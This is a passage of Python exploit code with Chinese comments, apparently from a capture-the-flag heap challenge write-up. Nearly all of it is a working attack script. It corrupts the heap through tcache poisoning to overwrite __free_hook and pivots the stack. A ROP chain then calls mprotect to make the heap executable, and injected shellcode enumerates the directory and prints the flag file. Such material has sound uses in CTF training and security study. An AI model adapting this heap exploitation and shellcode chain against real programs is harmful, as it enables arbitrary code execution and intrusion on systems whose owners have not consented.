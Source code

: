 ```bash
    # heap_addr + 0x1f0: pop rsp, &new_stack
    edit(2, p64(pop_rsp)+p64(new_stack))
    edit(1, p64(new_stack))

    add(0) # heap_addr + 0x240
    edit(0, p64(hijack_rsp)+p64(heap_addr+0x40)) 
    # 第一个对应的就是拷贝到 free_hook 的 gadget 地址，执行 gadget
    # 第二个对应的就是 mov rdx, qword ptr [rdi+8]

    add(1)
    add(2)
    delete(1)
    delete(2)
    poc = ((heap_addr+0x280)>>12) ^ (free_hook)
    edit(2, p64(poc))
    add(1)

    add(2)

    filename_addr = new_stack + 0x8 * 27
    # 第一段 ROP：执行 mprotect，将 heap 内存区域变成 RWX
    poc = b''
    poc += p64(pop_rdi)
    poc += p64(heap_addr)
    poc += p64(pop_rsi)
    poc += p64(0x4000)
    poc += p64(pop_rdx)
    poc += p64(7)
    poc += p64(libc.sym['mprotect'])

    # 第二段 ROP：将 shellcode 写入 heap 并跳转执行
    poc += p64(pop_rdi)
    poc += p64(0)
    poc += p64(pop_rsi)
    poc += p64(heap_addr)
    poc += p64(pop_rdx)
    poc += p64(0x100)
    poc += p64(libc.sym['read'])
    poc += p64(heap_addr)
    s(poc)

    # 获取 flag 文件名
    shellcode = b''
    shellcode += asm(shellcraft.open('./'))
    shellcode += asm(shellcraft.getdents64(3, read_buf, 0x400))
    shellcode += asm(shellcraft.write(1,read_buf, 0x400))
    shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (heap_addr+0x100))

    s(shellcode)
    if local:
        r()
        filename = '/flag'
    else:
        ru(b'haha_')
        filename = 'haha_'+rr(10).decode()
        r()
        r()

    shellcode = asm(shellcraft.cat(filename))
    s(shellcode)
    log.success('flag: %s', ru(b'}').decode())
```